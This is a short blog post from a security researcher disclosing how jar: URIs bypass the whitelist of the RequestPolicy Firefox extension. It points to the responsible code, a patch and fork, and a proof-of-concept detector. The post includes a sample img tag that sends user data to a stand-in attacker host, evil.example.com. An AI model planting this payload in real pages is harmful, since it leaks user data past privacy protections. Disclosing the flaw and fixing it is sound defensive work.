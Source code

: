 ```yaml
---
layout: post
title: "Bypassing RequestPolicy's whitelist using the jar: URI scheme"
date: 2013-11-29 04:11:39 -0400
comments: true
categories: 
---
```


Here's an interesting bug I found while looking at some cross-domain data-stealing issues. 
It's possible to bypass [RequestPolicy](https://www.requestpolicy.com/about.html)'s whitelist entirely by referencing a resource nested in a [jar URI](http://www.gnucitizen.org/blog/web-mayhem-firefoxs-jar-protocol-issues/):
```html Exfiltration example
<img src="jar:http://evil.example.com/logger?userdata=whatever!/foobar" />
```

Firefox will block the resource from being displayed even if it is 
valid (due to prior security issues with the jar URI scheme,) but a 
cross-domain request is made and it doesn't require JS to execute. This 
can be verified through the network pane in Firefox's dev tools. A limited amount of information *may* be sent back from the server by using timing information.

Requests to jar URIs don't get processed by RequestPolicy because [aContentLocation's asciiHost is undefined](https://github.com/RequestPolicy/requestpolicy/blob/20815944fada20a34e75c54221e33259f11aa6c6/src/components/requestpolicyService.js#L1953) when the jar URI scheme is used, and [it gets treated as an internal request](https://github.com/RequestPolicy/requestpolicy/blob/20815944fada20a34e75c54221e33259f11aa6c6/src/components/requestpolicyService.js#L1962). 
Since all [internal requests are implicitly allowed](https://github.com/RequestPolicy/requestpolicy/blob/20815944fada20a34e75c54221e33259f11aa6c6/src/components/requestpolicyService.js#L2035), the request goes through.

I emailed Justin the patch a few months ago, but he hasn't responded.
 Hopefully this gets fixed on the addons.mozilla.org version soon, since
 it limits RequestPolicy's effectiveness at preventing data exfiltration. 

For now, you can use [my fork of RequestPolicy](https://github.com/JordanMilne/requestpolicy). 
I'm not sure if the patch has any interactions with extensions, but it should also fix issues with 
nested use of the view-source scheme (which for some reason doesn't implement [nsINestedURI](http://dxr.mozilla.org/mozilla-central/source/netwerk/base/public/nsINestedURI.idl))

<h3>Proof-of-Concept</h3>

If you'd like to see whether or not you're vulnerable, <a href="http://saynotolinux.com/tests/requestpolicy_jar.html">I've made a Proof-of-Concept</a> that detects whether or not RequestPolicy blocked an image from a jar URI.

Without the patch:

[{% img /images/posts/jar-broken.png %}](/images/posts/jar-broken.png)

With the patch:

[{% img /images/posts/jar-fixed.png %}](/images/posts/jar-fixed.png)

